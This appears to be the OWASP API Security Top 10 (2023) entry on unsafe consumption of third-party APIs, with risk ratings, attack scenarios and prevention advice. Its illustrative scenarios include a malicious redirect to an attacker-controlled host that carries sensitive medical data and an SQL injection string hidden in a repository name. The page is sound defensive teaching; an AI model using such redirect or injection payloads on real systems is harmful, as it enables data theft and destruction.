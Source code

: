 # API10:2023 Unsafe Consumption of APIs

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **Easy** | Prevalence **Common** : Detectability **Average** | Technical **Severe** : Business Specific |
| Exploiting this issue requires attackers to identify and potentially compromise other APIs/services the target API integrated with. Usually, this information is not publicly available or the integrated API/service is not easily exploitable. | Developers tend to trust and not verify the interactions with external or third-party APIs, relying on weaker security requirements such as those regarding transport security, authentication/authorization, and input validation and sanitization. Attackers need to identify services the target API integrates with (data sources) and, eventually, compromise them. | The impact varies according to what the target API does with pulled data. Successful exploitation may lead to sensitive information exposure to unauthorized actors, many kinds of injections, or denial of service. |

## Is the API Vulnerable?

Developers tend to trust data received from third-party APIs more than user
input. This is especially true for APIs offered by well-known companies.
Because of that, developers tend to adopt weaker security standards, for
instance, in regards to input validation and sanitization.

The API might be vulnerable if:

* Interacts with other APIs over an unencrypted channel;
* Does not properly validate and sanitize data gathered from other APIs prior
  to processing it or passing it to downstream components;
* Blindly follows redirections;
* Does not limit the number of resources available to process third-party
  services responses;
* Does not implement timeouts for interactions with third-party services;

## Example Attack Scenarios

### Scenario #1

An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Scenario #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Bad actors found a way to compromise the third-party API and it starts
responding with a `308 Permanent Redirect` to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Scenario #3

An attacker can prepare a git repository named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repository, SQL injection payload is used on an application that
builds an SQL query believing the repository's name is safe input.

## How To Prevent

* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## References

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
